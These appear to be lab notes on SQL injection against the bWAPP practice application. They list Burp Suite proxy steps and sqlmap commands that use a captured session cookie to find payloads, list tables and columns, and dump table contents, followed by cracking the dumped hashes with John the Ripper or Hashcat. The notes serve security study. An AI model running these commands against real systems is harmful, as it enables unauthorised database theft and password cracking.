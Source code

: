 * Turn the Burp suite to a proxy through FoxyProxy
* Start the Burp suite --> This will show the cookie that we will use further.(PSESSID)
* Turn the "Intercept off" to login with the provided credentials to the target.
* ***
* Select" SQL Injection (GET/Search)"
* Start "Intercept" again.
* On the target, search "Joe". Then "forward" for the number of times it takes to go through.
* We should see this entry in Burp suite under "Proxy".

* Now in the terminal:
* `sqlmap`
* `sqlmap -u "[target_ip]/[copy the entry in the GET request]" --cookie "[Cookie's value from Burp suite]" -p title`
* This command should give the payloads that can be used to exploit the target
* Now in Burp suite:
* Right-click --> "Send to repeater" --> In "Repeater", paste one of the payload options given by the above command in GET section of the Repeater code.
* "Send"
* If this payload is blocked, it should give an Error on the right-side of the Burp suite.
* Try different payloads.
* `sqlmap -u "[target_ip]/[copy the entry in the GET request]" --cookie "[Cookie's value from Burp suite]" -p title -D bWAPP --tables`
* the above statement would fetch tables for database: bWAPP
* Now if we find any specific table that could be useful, we can use -T to see its columns:
  * `sqlmap -u "[target_ip]/[copy the entry in the GET request]" --cookie "[Cookie's value from Burp suite]" -p title -D bWAPP -T [Table_Name] --columns`
 
* To dump a whole table:
  * `sqlmap -u "[target_ip]/[copy the entry in the GET request]" --cookie "[Cookie's value from Burp suite]" -p title -T [table_name] -C [column_names] --dump`
 
* We can use these hashes via John The Ripper or Hashcat.

* ***
* Select" SQL Injection (POST/Search)"
